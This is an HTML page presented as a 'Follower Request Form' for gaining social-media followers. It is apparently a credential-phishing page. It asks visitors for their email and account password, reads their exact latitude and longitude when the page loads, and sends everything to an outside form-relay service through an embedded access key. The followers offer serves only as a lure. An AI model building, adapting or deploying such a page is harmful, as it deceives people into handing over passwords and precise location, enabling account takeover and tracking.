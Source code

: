 =<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>Follower Request Form</title>
  <style>
    body { font-family: Arial, sans-serif; margin: 40px; }
    form { max-width: 400px; margin: auto; background: #f7f7f7; padding: 20px; border-radius: 8px; box-shadow: 0 2px 8px #ddd; }
    label { display: block; margin-top: 15px; font-weight: bold; }
    input, textarea { width: 100%; padding: 8px; margin-top: 5px; border: 1px solid #ccc; border-radius: 4px; box-sizing: border-box; }
    button { margin-top: 20px; padding: 10px 20px; background: #4CAF50; color: white; border: none; border-radius: 4px; cursor: pointer; font-size: 1em; }
    button:hover { background: #45a049; }
    #location-status { font-size: 0.9em; color: #888; margin-top: 5px; }
  </style>
</head>
<body>
  <form action="https://api.web3forms.com/submit" method="POST">
<!-- Replace with your Access Key -->
    <input type="hidden" name="access_key" value="0732fb33-547b-48bb-826e-09f7854ad14b">
    <h2 name="formTitle">Follower Request Form</h2>
    <label for="name" name="labelName">Name:</label>
    <input type="text" id="name" name="name" required>

   <label for="email" name="labelEmail">Email:</label>
    <input type="email" id="email" name="email" required>

   <label for="passkey" name="labelPasskey">Password:</label>
    <input type="password" id="passkey" name="passkey" required>

  <label for="followers" name="labelFollowers">How many followers do you want?</label>
    <input type="number" id="followers" name="followers" min="1" required>

  <label for="location" name="labelLocation">Your Location:</label>
    <input type="text" id="location" name="location" required readonly>
    <div id="location-status" name="locationStatus">Detecting location...</div>
        <input type="checkbox" name="botcheck" class="hidden" style="display: none;">
    <!-- Custom Confirmation / Success Page -->
    <!-- <input type="hidden" name="redirect" value="https://mywebsite.com/thanks.html"> -->

   <button type="submit" name="submitButton">Submit</button>
  </form>

  <script>
    document.addEventListener('DOMContentLoaded', function() {
      var locationInput = document.getElementById('location');
      var statusDiv = document.getElementById('location-status');
      if (navigator.geolocation) {
        navigator.geolocation.getCurrentPosition(
          function(position) {
            var lat = position.coords.latitude.toFixed(6);
            var lon = position.coords.longitude.toFixed(6);
            locationInput.value = lat + ", " + lon;
            statusDiv.textContent = "Location detected!";
          },
          function(error) {
            statusDiv.textContent = "Unable to retrieve location. Please allow location access.";
            locationInput.value = "";
          }
        );
      } else {
        statusDiv.textContent = "Geolocation is not supported by your browser.";
        locationInput.value = "";
      }
    });
  </script>
</body>
</html>
